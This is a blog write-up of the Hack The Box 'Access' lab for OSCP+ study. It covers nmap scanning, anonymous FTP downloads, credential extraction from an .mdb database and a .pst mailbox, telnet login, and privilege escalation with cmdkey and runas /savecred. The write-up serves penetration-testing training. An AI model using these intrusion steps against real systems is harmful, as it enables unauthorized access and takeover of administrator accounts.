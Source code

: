 ```yaml
---
layout: post
title:  HTB Access Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-18 15:00:00 +0300
image:  '/images/htb_access.png'
tags:   [Write-ups, HTB, OSCP+, Easy, Windows, FTP-Anonymous, .mdb, Telnet, Stored-Credentials, Runas.exe]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
  - [FTP Anonymous access](#ftp-anonymous-access)
  - [Examining backup.mdb and Access Control.zip and getting credentials of the user security](#examining-backupmdb-and-access-controlzip-and-getting-credentials-of-the-user-security)
- [Foothold](#foothold)
  - [Telnet access using the user security credentials](#telnet-access-using-the-user-security-credentials)
- [Privilege Escalation](#privilege-escalation)
  - [Administrator stored credentials and runas.exe](#administrator-stored-credentials-and-runasexe)

# Enumeration
### Nmap 10.129.223.141
```shell
# Step 1 - Find active ports
nmap -p- -Pn --min-rate 10000 10.129.223.141

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p21,23,80 10.129.223.141
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-18 08:19 EST
Nmap scan report for 10.129.223.141
Host is up (0.036s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.40 seconds
```

If we examine the results of nmap, we will see that port 21 is accessible with anonymous and port 23 is also open. There seems to be a website running on port 80 too.

### Web Enumeration
Lets visit the website first:
```shell
http://10.129.223.141/
```

There seems to be a photo of some server racks but nothing else.

### FTP Anonymous access

From our nmap scan, we know that we have FTP anonymous access. Lets access it:

```shell
ftp 10.129.223.141    

Connected to 10.129.223.141.
220 Microsoft FTP Service
Name (10.129.223.141:Vorkharium): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

After getting access, we can go on and enumerate the accessible folders and files:

```shell
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> binary
200 Type set to I.
```

We can get mget * to get any file we find:

```shell
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> mget *
mget Access Control.zip [anpqy?]? y
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |***********************************************************************| 10870       96.11 KiB/s    00:00 ETA
226 Transfer complete.
```

After enumerating both folders, we were able to get the following two files:

```shell
backup.mdb
Access Control.zip
```

### Examining backup.mdb and Access Control.zip and getting credentials of the user security
We can use mdb-sql or Microsoft Access to examine backup.mdb. I used Microsoft Access.

Inside auth_user I found the following credentials:

```shell
admin:admin
engineer:access4u@security
backup_admin:admin
```

We were able to unzip Access Control.zip using the password of the user engineer:

```shell
access4u@security
```

After extracting the .zip file, we got a .pst file. We can examine the .pst file using Microsoft Outlook.

Inside the .pst file Access Control.pst we found the credentials of the user security:

```shell
security:4Cc3ssC0ntr0ller
```

# Foothold
### Telnet access using the user security credentials
Now we can try using telnet to get access using the credentials of the user security:

```shell
telnet -l security 10.129.223.141
```

Wait until we get asked to enter a password and enter the following password:

```shell
4Cc3ssC0ntr0ller
```

It worked! We got in:

```shell
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\security\Desktop\user.txt
```

# Privilege Escalation
### Administrator stored credentials and runas.exe
Lets check if there are any stored credentials:

```shell
C:\Users\security>cmd /;os
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
```

It seems like the credentials of the Administrator are saved.

Knowing this, we can use runas.exe and the saved credentials of the user Administrator to copy the root.txt file to the folder of the user security and be able to read the contents of root.txt after that:

```shell
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"
```

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\security\root.txt
```